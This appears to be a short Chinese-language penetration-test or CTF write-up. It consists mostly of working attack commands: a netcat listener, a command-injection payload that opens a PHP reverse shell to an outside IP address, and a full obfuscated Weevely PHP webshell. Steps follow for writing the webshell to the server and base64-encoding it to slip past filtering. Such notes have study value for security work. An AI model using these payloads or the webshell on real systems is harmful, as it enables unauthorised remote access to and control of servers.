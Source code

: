 ##### Listner: Attacker Side
```sh!
rlwrap -cAr nc -lvnp 1337
```

##### Payload:
使用[RevShells](https://www.revshells.com/)生成
```sh!
127.0.0.1 && php -r '$sock=fsockopen("159.89.115.68",1337);exec("sh <&3 >&3 2>&3");'
```

##### Weevely

由於目標伺服器未裝`wget`、`curl`等工具，
為了減少滲透測試難度，裝自帶多模組的Weevely webshell
好處是可以不指定Listener IP，
允許任何人透過password來連線。


```sh!
weevely generate XD helpme.dat
```

在伺服器寫入檔案
```sh!
cat > helpme.dat << EOF
<?php
$h='";f%^unction%^ %^x($t,$k){$c%^=strlen($k)%^;$l=%^strlen($%^t%^);$o="";for%^($i=0;%^$i<$%^l;){fo%^';
$I='@ob%^_end_c%^lean(%^);$r=@base%^64_enc%^%^ode(@x(@g%^zcompre%^ss($o%^),$k)%^%^);print("%^$p$kh$r$kf");}';
$S='$%^k="444bcb3a%^";$kh%^="3fcf8389%^296c";%^%^$kf="49467%^f27e1%^d6";$%^p="26BD3u%^q7ZJ4%^K%^YWWL';
$M=';@ev%^al(@gzuncompr%^ess(@x(@b%^ase64_%^decode(%^%^$m[1]%^),$k)));%^$o=@ob_%^get_conte%^n%^ts();';
$s='"%^/%^$kh(.%^+)$kf/",@file%^%^%^_get_contents(%^"php://input"%^%^),$m)==1) %^{%^@ob%^_st%^art()';
$T=str_replace('xW','','cxWreaxWtxWe_fxWunxWctixWon');
$U='r($j=0%^;(%^$j<$c&&$i<%^$l);$%^j++,$i++)%^{$o.=$%^t{$i}^%^%^$k{$j};}}ret%^ur%^n%^ $o;}if (@preg%^_match%^(';
$b=str_replace('%^','',$S.$h.$U.$s.$M.$I);
$a=$T('',$b);$a();
?>
EOF
```

有些字串會被clean掉，所以先用Base64 encode後上傳再decode
```sh!
base64 helpme.dat
```

上傳
```sh!
echo '<BASE64_STRING>' > helpme.dat
```

```sh!
base64 --decode helpme.dat > helpme.php
```
